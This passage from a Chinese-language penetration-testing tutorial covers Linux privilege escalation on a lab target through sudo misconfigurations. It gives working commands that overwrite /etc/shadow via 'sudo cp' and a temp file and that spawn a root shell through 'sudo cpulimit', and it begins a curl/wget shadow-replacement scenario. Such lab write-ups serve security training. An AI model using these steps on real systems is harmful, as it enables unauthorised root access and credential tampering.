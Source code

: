1. 先在本地创建一个 **SHA-512** 密码
```bash
mkpasswd -m sha-512 kali
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595367206-e9c035cb-e59a-4737-a71b-2ec477ed5aeb.png#averageHue=%23585b61&clientId=udc675dd6-1ea4-4&from=paste&height=90&id=ue2a688b3&originHeight=113&originWidth=1466&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61260&status=done&style=none&taskId=u490fd264-7b4d-40e7-a8db-90e190d420a&title=&width=1172.8)

2. 拼接为 **/etc/shadow **文件的格式

![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595538725-9c24ab9b-56cf-48fd-84d3-1abf3b8e327c.png#averageHue=%2353565c&clientId=udc675dd6-1ea4-4&from=paste&height=118&id=u78977851&originHeight=147&originWidth=1786&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=97666&status=done&style=none&taskId=u678f0233-d40c-46e2-adf0-36c237d8f1a&title=&width=1428.8)

3. 写入 靶机的 临时文件中 `**$(mktemp)**`，再用 **copy **复制，覆盖写入 **/etc/shadow **文件，以实现提权
```bash
GTC_FILE=/etc/shadow  # 要覆盖写入的文件

temp=$(mktemp)  # mktemp 创建临时文件 在 /tmp 目录中

echo '[root password]' > $temp # root 密码写入临时文件

sudo /bin/cp $temp $GTC_FILE
# 注意覆盖写入，执行前应对 /etc/shadow 备份，以防提权后靶机崩溃
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685596336657-240a0ba0-1b90-498e-8991-91aac80cd1e0.png#averageHue=%232c313e&clientId=udc675dd6-1ea4-4&from=paste&height=421&id=uae342f24&originHeight=526&originWidth=908&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=336300&status=done&style=none&taskId=u3181ed49-2d43-432a-92e8-f6f8da3dbdc&title=&width=726.4)
## 情景十九 - cpulimit
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685598359605-55ac0a37-9f63-4483-8b8b-0675c2c100e6.png#averageHue=%23373941&clientId=ucada80b3-aeb4-4&from=paste&height=78&id=uabd8976c&originHeight=98&originWidth=414&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=57874&status=done&style=none&taskId=ud6645b45-eef8-4237-bfca-0f86288fd0f&title=&width=331.2)
```bash
sudo cpulimit -l 100 -f /bin/bash

# -l 100：限制 cpu 的使用率为 100%

# -f /bin/bash：指定 /bin/bash 在前台执行；
#  以 -l 的参数 (100%) 使用 cpu 的比例
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685613666245-a876a099-22c3-4ac2-89b2-93e20dfb109d.png#averageHue=%2321232e&clientId=ucada80b3-aeb4-4&from=paste&height=184&id=ud24fe524&originHeight=230&originWidth=716&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=137003&status=done&style=none&taskId=uae271e5c-f8e0-4401-8767-2654b8e89cd&title=&width=572.8)
## 情景二十 - curl - wget
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685602413060-4b2885d4-d61f-4896-b748-80fc7143fe94.png#averageHue=%2320283c&clientId=ucada80b3-aeb4-4&from=paste&height=160&id=u4b62d4b9&originHeight=200&originWidth=735&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=131493&status=done&style=none&taskId=uad73cc8e-f8dc-4a07-bdaa-d773f24af3f&title=&width=588)
通过**HTTP**下载自定义的 **/etc/shadow **来覆盖靶机原本的 **/etc/shadow **，实现提权

1. 先在本地创建一个 **SHA-512** 密码
```bash
mkpasswd -m sha-512 kali
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595367206-e9c035cb-e59a-4737-a71b-2ec477ed5aeb.png#averageHue=%23585b61&clientId=udc675dd6-1ea4-4&from=paste&height=90&id=INRLi&originHeight=113&originWidth=1466&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61260&status=done&style=none&taskId=u490fd264-7b4d-40e7-a8db-90e190d420a&title=&width=1172.8)

2. 拼接为 **/etc/shadow **文件的格式

![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595538725-9c24ab9b-56cf-48fd-84d3-1abf3b8e327c.png#averageHue=%2353565c&clientId=udc675dd6-1ea4-4&from=paste&height=118&id=MtUek&originHeight=147&originWidth=1786&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=97666&status=done&style=none&taskId=u678f0233-d40c-46e2-adf0-36c237d8f1a&title=&width=1428.8)

